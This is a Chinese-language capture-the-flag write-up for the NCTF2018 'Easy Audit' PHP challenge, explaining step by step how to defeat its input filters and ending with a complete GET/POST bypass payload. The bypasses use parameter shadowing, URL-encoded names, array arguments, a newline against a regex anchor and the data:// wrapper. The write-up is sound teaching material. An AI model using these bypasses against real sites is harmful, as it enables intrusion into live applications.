

# [NCTF2018] Easy Audit

## 基本信息

- **题目名称**：[NCTF2018] Easy Audit
- **题目链接**：https://www.nssctf.cn/problem/963
- **考点清单**：`$_REQUEST` 参数覆盖、URL 编码绕过、PHP 数组类型处理、正则表达式绕过、Data 伪协议

## 一、代码审计

题目提供一段 PHP 代码，核心逻辑如下

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

if($_REQUEST){
    foreach ($_REQUEST as $key => $value) {
        if(preg_match('/[a-zA-Z]/i', $value))
            die('waf..');
    }
}

if($_SERVER){
    if(preg_match('/yulige|flag|nctf/i', $_SERVER['QUERY_STRING']))
        die('waf..');
}

if(isset($_GET['yulige'])){
    if(!(substr($_GET['yulige'], 32) === md5($_GET['yulige']))){
        die('waf..');
    }else{
        if(preg_match('/nctfisfun$/', $_GET['nctf'])
            && $_GET['nctf'] !== 'nctfisfun'){
            $getflag = file_get_contents($_GET['flag']);
        }

        if(isset($getflag) && $getflag === 'ccc_liubi'){
            include 'flag.php';
            echo $flag;
        }else die('waf..');
    }
}
?>
```

整体需要依次通过四道限制：

1. `$_REQUEST` 参数值不能包含英文字母
2. 原始查询字符串不能包含 `yulige`、`flag`、`nctf`
3. `yulige` 参数需要满足特殊的 MD5 判断
4. `nctf` 需要通过正则匹配，且 `file_get_contents()` 的读取结果必须为 `ccc_liubi`

## 二、绕过分析

### 1. 利用 GET 与 POST 参数覆盖绕过字母检测

```php
foreach ($_REQUEST as $key => $value) {
    if(preg_match('/[a-zA-Z]/i', $value))
        die('waf..');
}
```

`$_REQUEST` 是 PHP 的超全局变量，默认用于合并 GET、POST 和 COOKIE 请求参数

其具体合并顺序由 PHP 配置决定：

- `request_order`：控制 `$_REQUEST` 的合并顺序
- `G`：GET 参数
- `P`：POST 参数
- `C`：COOKIE 参数

例如：

```
request_order = "GP"
```

表示先合并 GET，再合并 POST，同名参数以后出现的值覆盖前面的值

因此，可以利用 GET 和 POST 传递同名参数，使 `$_REQUEST` 与 `$_GET` 获取到不同的内容

GET：

```
yulige[]=1
```

POST：

```
yulige=1
```

此时：

| 变量                  | 获取结果          |
| --------------------- | ----------------- |
| `$_GET['yulige']`     | `Array([0] => 1)` |
| `$_REQUEST['yulige']` | `1`               |

这样，WAF 检测的是 POST 覆盖后的数字 `1`，而后续代码仍然可以通过 `$_GET` 获取数组

同理，`nctf` 和 `flag` 参数也采用这种方式进行覆盖

### 2. 利用 URL 编码绕过查询字符串检测

```php
if(preg_match('/yulige|flag|nctf/i', $_SERVER['QUERY_STRING']))
    die('waf..');
```

`$_SERVER['QUERY_STRING']` 用于获取 URL 中 `?` 后面的原始查询字符串，**不会像 `$_GET` 一样自动进行 URL 解码**

例如：

```php
<?php
var_dump($_SERVER['QUERY_STRING']);
var_dump($_GET);
```

访问：

```
?%6E%61%6D%65=zigyr
```

输出：

```php
string(18) "%6E%61%6D%65=zigyr"

array(1) {
    ["name"]=> string(5) "zigyr"
}
```

因此，可以将敏感参数名进行 URL 编码，使原始查询字符串无法匹配到黑名单关键词，而 PHP 仍然能够正常解析参数

| 原始参数名 | URL 编码             |
| ---------- | -------------------- |
| `yulige`   | `%79%75%6C%69%67%65` |
| `nctf`     | `%6E%63%74%66`       |
| `flag`     | `%66%6C%61%67`       |

### 3. 利用数组类型绕过 MD5 判断

```php
if(!(substr($_GET['yulige'], 32) === md5($_GET['yulige']))){
    die('waf..');
}
```

正常情况下，需要满足：

```
substr($yulige, 32) === md5($yulige)
```

即输入字符串从第 33 个字符开始的内容，必须严格等于整个输入字符串的 MD5 值

但这里可以利用 PHP 对数组参数的处理绕过判断

Payload：

```
yulige[]=1
```

在 PHP 7 等旧版本中：

- `substr()` 接收到数组，产生警告并返回 `NULL`
- `md5()` 接收到数组，同样产生警告并返回 `NULL`

因此：

```
substr($_GET['yulige'], 32) === md5($_GET['yulige'])
```

实际变为：

```
NULL === NULL
```

结果为 `true`，成功绕过判断

> **注意：** 该技巧依赖 PHP 版本，在 PHP 8 中，相关内置函数接收到不符合参数类型的数组通常会抛出 `TypeError`，不能直接沿用此方法

### 4. 利用换行符绕过正则匹配

```php
if(preg_match('/nctfisfun$/', $_GET['nctf'])
    && $_GET['nctf'] !== 'nctfisfun'){
```

这里存在两个条件：

1. `preg_match()` 必须匹配成功
2. 参数值不能严格等于 `nctfisfun`

利用正则表达式 `$` 的特性，可以在字符串末尾添加换行符

默认 PCRE 模式下，`$` 除了匹配字符串末尾，还可以匹配最终换行符之前的位置

因此：

```
preg_match('/nctfisfun$/', "nctfisfun\n");
```

返回 `true`

而严格比较：

```
"nctfisfun\n" !== "nctfisfun"
```

同样返回 `true`，因为两个字符串包含的字符不同

最终 Payload：

```
nctf=nctfisfun%0a
```

其中 `%0a` 是换行符 LF 的 URL 编码

### 5. 利用 Data 伪协议构造指定内容

```
$getflag = file_get_contents($_GET['flag']);
```

要求：

```
$getflag === 'ccc_liubi'
```

可以利用 PHP 的 Data 伪协议直接构造指定内容

Payload：

```
flag=data://text/plain,ccc_liubi
```

`data://text/plain,ccc_liubi` 会将逗号后面的内容作为数据返回

因此：

```
file_get_contents('data://text/plain,ccc_liubi');
```

返回：

```
ccc_liubi
```

满足最终的字符串比较条件

> 该方法需要 PHP 环境支持 Data Wrapper，且相关配置允许使用

## 三、最终利用

综合以上绕过方式，需要注意：

- GET 负责提供实际利用参数
- POST 负责覆盖 `$_REQUEST` 中的同名参数
- URL 编码负责绕过原始查询字符串检测
- 数组类型负责绕过 MD5 判断
- 换行符负责绕过正则与严格比较
- Data 伪协议负责构造指定读取内容

最终 Payload：

**GET：**

```
?%79%75%6C%69%67%65[]=1&%6E%63%74%66=%6E%63%74%66%69%73%66%75%6E%0a&%66%6C%61%67=data://text/plain,ccc_liubi
```

**POST：**

```
yulige=1&nctf=2&flag=1
```

发送请求后即可通过全部检测，执行 `flag.php` 并输出 Flag



## 四、考点总结

| 考点                 | 核心原理                                                  |
| -------------------- | --------------------------------------------------------- |
| `$_REQUEST` 参数覆盖 | 利用 GET、POST 同名参数及 `request_order` 控制合并结果    |
| URL 编码绕过         | `$_SERVER['QUERY_STRING']` 获取原始查询字符串，不自动解码 |
| PHP 数组类型处理     | 利用旧版本 PHP 内置函数接收数组时的警告与返回值绕过比较   |
| 正则表达式绕过       | 利用 `$` 对最终换行符的匹配特性绕过严格比较               |
| Data 伪协议          | 通过 `data://text/plain,` 构造指定内容                    |

**核心思路：** 同一请求中利用 GET 与 POST 的参数解析差异，让不同代码分支获取到不同的参数值，从而逐层绕过 WAF 限制
